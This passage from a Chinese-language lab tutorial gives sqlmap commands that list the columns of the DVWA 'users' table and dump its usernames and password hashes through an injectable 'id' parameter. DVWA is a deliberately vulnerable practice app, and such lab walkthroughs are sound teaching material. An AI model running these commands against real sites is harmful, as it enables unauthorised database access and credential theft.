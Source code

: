 ![Alt text](image-6.png)
### 2.7 获取表中的列名
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch -D "dvwa" -T "users" --columns
```
![Alt text](image-7.png)
### 2.8 获取表中用户名和密码的数据
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch -D "dvwa" -T "users" -C "user,password" --dump
```